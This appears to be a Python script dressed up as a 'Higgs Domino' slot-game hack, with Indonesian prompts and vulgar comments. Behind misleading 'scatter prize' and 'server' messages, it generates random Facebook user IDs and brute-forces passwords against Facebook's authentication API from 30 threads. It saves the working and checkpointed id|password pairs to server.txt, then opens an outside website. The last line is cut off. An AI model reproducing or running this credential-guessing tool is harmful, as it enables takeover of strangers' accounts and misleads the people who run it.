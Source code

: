 #Yg Rekod Anak Babi
#Jangan Rekod Kontol
#my_github_https://github.com/wayle77/slot-fafafa
#wa:PRIVAT


W = '\033[97;1m' 
R = '\033[91;1m' 
G = '\033[92;1m' 
Y = '\033[93;1m' 
B = '\033[94;1m'
P = '\033[95;1m'
C = '\033[96;1m'
N = '\x1b[0m'



import os
try:
	import requests
except ImportError:
	os.system("pip install requests")

try:
	import concurrent.futures
except ImportError:
	os.system("pip install futures")

import os
import sys
import time
import requests
import random
import platform
import base64
import subprocess
from concurrent.futures import ThreadPoolExecutor
logo = """
\033[1;92m  
 ==========================================
   ~  HACK GAME HIGGS DOMINO ISLAND ~
 ==========================================
"""

class Main:
	def __init__(self):
		self.id = []
		self.ok = []
		self.cp = []
		self.loop = 0
		os.system("clear")
		print(logo)
		print('\033[93;1m[+] UPDATE SCRIPT SLOT FAFAFA [Versi terbaru]\033[0m')
		print('\033[1;92m[+]HACK SLOT FAFAFA\033[0m')
		print("")
		print("%s[%s1%s]%s KHUSUS NOMOR ID %s[Pengunjung]"%(G,G,R,Y,B))
		print("\033[1;31m[2] EXIT")
		__SHO = input("\n\033[0;91m➤ \033[0;92m Pilih \033[0m: ")
		if __SHO in ["", " "]:
			Main()
		elif __SHO in ["1", "01"]:
			self.fbtua()
		else:
			exit()

	def fbtua(self):
		x = 111111111
		xx = 999999999
		idx = "100000" 
		os.system('clear');print(logo)
		limit = int(input("\033[97;1m[+] SCATTER PRIZES [MAX 300] ENTER : "))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			
			print("\033[0;93m[+] SCATTER PRIZES -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("%s[+] SCATTER PRIZES RATE [➤] %s00000,00000,000000"%(G,Y))
				listpass = input("%s[+] MASUKAN NOMER ID AKUN :%s "%(G,Y))
				if len(listpass)<=5:
					exit("\n%s[+] SANDI MAX [6] Digit "%(B))
				print("%s[+] HACK MENGGUNAKAN NOMOR ID -> [\033[0;91m%s\033[0;93m]"%(G,listpass))
				print("\n%s[➤] server toptobos.com -> server.txt"%(G))
				print("%s[➤] server toptobos.com -> server.txt"%(C))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n[➤] BUKA APLIKASI HIGGS DOMINO...")
		except Exception as e:exit(str(e))

	def api(self, uid, pwx):
		ua = random.choice([
			"Mozilla/5.0 (BlackBerry; U; BlackBerry 9700; en) AppleWebKit/534.8+ (KHTML, like Gecko) Version/6.0.0.448 Mobile Safari/534.8+]"
			"Mozilla/5.0 (BlackBerry; U; BlackBerry 9700; en) AppleWebKit/534.8+ (KHTML, like Gecko) Version/6.0.0.448 Mobile Safari/534.8+]"
			"Mozilla/5.0 (Linux; Android 6.0; CAM-L21 Build/HUAWEICAM-L21) AppleWebKit/537.36 (KHTML, seperti Gecko) Chrome/56.0.2924.87 Mobile Safari/537.36]"
			"NokiaC3-00/5.0 (07.20) Profil/MIDP-2.1 Konfigurasi/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, seperti Gecko) Safari/420+]"
		])
		sys.stdout.write(
			"\r\r%sserver ➤ %s/%s -> \033[0;97m Toptobos.com:%s \033[0;97m connetion:%s "%(W,self.loop, len(self.id), len(self.ok), len(self.cp))
		); sys.stdout.flush()
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r\033[0;93mserver ➤ Toptobos.com|%s | %s\033[0;93m         "%(uid, pw))
				self.ok.append("%s|%s"%(uid, pw))
				open("server.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r\033[92;1mserver ➤ connetion|%s | %s\033[92;1m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				open("server.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			else:
				continue

		self.loop +=1

try:Main()
except Exception as e:exit(str(e))
os.system('xdg-open https://topbos-id.com/home/loginid2
